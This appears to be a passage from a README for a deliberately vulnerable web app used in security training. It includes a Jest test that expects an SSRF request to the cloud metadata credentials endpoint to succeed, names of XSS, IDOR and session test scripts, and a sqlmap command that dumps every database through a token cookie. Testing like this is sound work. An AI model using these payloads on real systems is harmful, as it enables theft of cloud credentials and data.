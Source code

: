 **3. SSRF and LFI Testing Suite:**
```javascript
describe('SSRF Vulnerability Tests', () => {
  test('should allow access to cloud metadata service', async () => {
    const ssrfPayload = {
      importUrl: 'http://169.254.169.254/latest/meta-data/iam/security-credentials/',
      format: 'json'
    };
    
    const response = await request(app)
      .post('/api/tasks/import')
      .set('Authorization', `Bearer ${validToken}`)
      .send(ssrfPayload);
    
    expect(response.status).toBe(200);
    expect(response.body.metadata).toBeDefined();
  });
});
```

### Automated Security Scanning
```bash
# Run comprehensive security scan
.\scripts\security-scan.ps1

# Skip build if containers exist
.\scripts\security-scan.ps1 -SkipBuild
```

### Manual Testing Scripts
```bash
# Test XSS vulnerabilities
.\scripts\test-xss.ps1

# Test IDOR vulnerabilities
.\scripts\test-idor.ps1

# Test session management
.\scripts\test-session-management.ps1
```

### Advanced Exploitation Examples

**SQLMap Testing Configuration:**
```bash
# SQLMap test script
sqlmap -u "http://localhost:3000/api/tasks/search?query=test" \
       --cookie="token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..." \
       --dbs \
       --dump-all \
       --batch
```
